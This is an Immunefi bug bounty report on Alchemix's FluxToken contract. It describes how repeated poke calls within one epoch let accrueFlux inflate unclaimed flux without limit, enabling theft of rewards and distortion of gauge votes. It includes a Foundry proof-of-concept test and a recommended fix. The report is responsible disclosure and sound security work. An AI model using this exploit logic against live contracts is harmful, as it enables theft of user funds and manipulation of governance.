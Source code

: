 
# FluxToken's unlimited mint and Exploitation of gauge voting results using it

Submitted on May 21st 2024 at 04:17:49 UTC by @cryptoticky for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #31541

Report type: Smart Contract

Report severity: Critical

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/FluxToken.sol

Impacts:
- Theft of unclaimed yield
- Direct theft of any user funds, whether at-rest or in-motion, other than unclaimed yield
- Manipulation of governance voting result deviating from voted outcome and resulting in a direct change from intended effect of original results

## Description
## Brief/Intro
FluxToken's unlimited mint and Exploitation of gauge voting results using it

## Vulnerability Details
1. The Poke function can be executed several times within an epoch.
2. The poke function calls Voter._vote function and _vote function calls `IFluxToken(FLUX).accrueFlux(_tokenId)`.

`FluxToken.accrueFlux`
```
/// @inheritdoc IFluxToken
    function accrueFlux(uint256 _tokenId) external {
        require(msg.sender == voter, "not voter");
        uint256 amount = IVotingEscrow(veALCX).claimableFlux(_tokenId);
        unclaimedFlux[_tokenId] += amount;
    }
```
This function does not check for multiple calls within one epoch.

## Impact Details
### 1.  mint a substantial quantity of flux tokens
As soon as a user calls the poke function, the value of unclaimedFlux increases. Consequently, an attacker can obtain an unlimited amount of flux tokens. The attackers can wait until their locked bpt expires and then withdraw, enabling them to mint a substantial quantity of flux tokens.

Alternatively, they can withdraw before expiration. In this case, the profits gained by the attacker far outweigh any applicable penalties.

### 2. Secure the majority of the reward tokens
Simultaneously, the attacker can use the acquired flux tokens to obtain a significant voting boost. As a result, the attacker can secure the majority of the reward tokens.

## Recommendation

According to the epoch, it is necessary to modify the acrueFlux function so that users can receive flux for each epoch.


## Proof of Concept
```
// SPDX-License-Identifier: GPL-3
pragma solidity ^0.8.15;

import "./BaseTest.sol";

contract BugPokePoC is BaseTest {

    function setUp() public {
        setupContracts(block.timestamp);
    }

    // An attacker can use Voter.accrueFlux function to mint the fluxToken indefinitely.
    function testBugAccrueFlux() public {
        address attacker = beef;
        uint256 tokenId = createVeAlcx(attacker, TOKEN_100K, MAXTIME, false);

        address bribeAddress = voter.bribes(address(sushiGauge));
        address[] memory pools = new address[](1);
        pools[0] = sushiPoolAddress;
        uint256[] memory weights = new uint256[](1);
        weights[0] = 5000;


        hevm.prank(attacker);
        voter.vote(tokenId, pools, weights, 0);

        hevm.warp(newEpoch());
        voter.distribute();

        console.log("before flux amount: ", flux.balanceOf(attacker));

        {
            hevm.startPrank(attacker);

            uint256 unclaimedFlux = flux.getUnclaimedFlux(tokenId);
            uint256 oldUnclaimedFlux = unclaimedFlux;
            console.log("unclaimedFlux: ", unclaimedFlux);

            // designed max totalPower
            uint256 totalPower = veALCX.balanceOfToken(tokenId) + unclaimedFlux + veALCX.claimableFlux(tokenId);

            console.log("correct max totalPower: ", totalPower);

            for(uint256 i; i < 5; i++) {
                voter.poke(tokenId);
                unclaimedFlux = flux.getUnclaimedFlux(tokenId);
                console.log("unclaimedFlux: ", unclaimedFlux);
            }

            hevm.warp(newEpoch());
            voter.distribute();

            console.log("correct max totalPower: ", veALCX.balanceOfToken(tokenId) + oldUnclaimedFlux + veALCX.claimableFlux(tokenId));

            console.log("misused max totalPower: ", veALCX.balanceOfToken(tokenId) + unclaimedFlux + veALCX.claimableFlux(tokenId));

            voter.vote(tokenId, pools, weights, unclaimedFlux + veALCX.claimableFlux(tokenId));

            hevm.warp(newEpoch());
            voter.distribute();

            //It takes a considerable amount of time to implement this block, so I blocked it for now.
            //If is not enough due to the current code, you can open and run the blocked code.
            {
//            hevm.warp(block.timestamp + MAXTIME);
//
//            veALCX.startCooldown(tokenId);
//
//            hevm.warp(block.timestamp + 1 weeks + 1);
//
//            voter.reset(tokenId);
//            veALCX.withdraw(tokenId);
//            console.log("after flux amount:  ", flux.balanceOf(attacker));
            }
            hevm.stopPrank();
        }
        
    }
}
```